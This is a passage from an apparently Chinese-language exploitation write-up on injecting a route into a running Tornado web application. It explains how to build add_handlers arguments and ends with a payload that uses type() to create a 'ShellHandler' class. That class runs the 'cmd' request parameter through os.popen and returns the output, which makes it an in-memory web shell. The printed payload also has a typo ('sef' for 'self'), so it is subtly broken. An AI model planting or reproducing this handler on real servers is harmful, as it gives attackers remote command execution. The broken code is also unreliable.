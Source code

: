 既然有一个现成的函数可供调用，那么就可以放弃去直接操作列表，转而考虑怎么来构造这个函数的参数


### 参数构造

首先看到这个函数声明接受两个参数 `host_pattern` 和 `host_handlers`，其中 `host_pattern` 是一个字符串没有什么需要多考虑的，这个场景下直接构造 `.*` 匹配所有域名即可，而第二个参数 `host_handlers` 较为复杂一点，类型为 `_RuleList`，查看一下这个类型定义

```python
_RuleList = List[
    Union[
        "Rule",
        List[Any],  # Can't do detailed typechecking of lists.
        Tuple[Union[str, "Matcher"], Any],
        Tuple[Union[str, "Matcher"], Any, Dict[str, Any]],
        Tuple[Union[str, "Matcher"], Any, Dict[str, Any], str],
    ]
]
```

在 `add_rules` 中，整个传入的值都会被作为构造参数来实例化一个 `Rule` 对象，构造函数如下

```python
def __init__(
	self,
	matcher: "Matcher",
	target: Any,
	target_kwargs: Optional[Dict[str, Any]] = None,
	name: Optional[str] = None,
) -> None:

```

第一个参数类型为 `Matcher`，如果自己来构造的话会比较麻烦，但是看到 `add_rules` 中的处理，会判断一次传入值，如果是 `tuple` 或者 `list` 并且第一个值是字符串，那么就会调用一次 `PathMatches` 返回一个 `Matcher` 对象，所以这里考虑直接传入路由字符串，让系统来做一次自动转换

接下来考虑路由对应的 `handler`, 这往往需要是一个 `tornado.web.RequestHandler` 的子类，那么这里可以直接使用 `type` 函数来创建一个对应基类的对象，当 `type` 函数接受三个参数时，第一个参数为类名，第二个参数为基类元组，第三个参数为类属性/方法的字典，函数原型如下

```python
@overload
def __init__(self, name: str, bases: tuple[type, ...], dict: dict[str, Any], /, **kwds: Any) -> None: ...
```

所以使用下面的payload即可创建一个合法的恶意 `RequestHandler`

```python
type(
	'ShellHandler',
	(tornado.web.RequestHandler,),
	{
		'get': lambda self: self.write(__import__('os').popen(sef.get_argument('cmd', 'id')).read()) 
	}
)
```
